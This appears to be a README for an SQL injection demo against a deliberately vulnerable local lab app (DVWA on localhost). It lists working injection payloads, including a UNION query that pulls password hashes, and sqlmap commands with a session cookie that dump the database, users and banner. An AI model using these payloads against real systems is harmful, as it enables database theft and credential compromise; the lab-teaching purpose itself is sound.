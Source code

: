 # SQL Injection Demo

## Manual

- Get all users
  
```sql
 1' or 1 = '1
```

- Get password hashes
  
```sql
 ' UNION SELECT user, password FROM users#
```


## URL to Test

[http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#](http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#)

## Cookie Data to Send

- PHPSESSID: `0bf460cc2a7016175bb93c7b6e82c30b` change it.
- security: `low`

## Attack to Show All Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --dump-all
```

## Attack to Get Specific Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --banner --current-user --current-db --dump
```
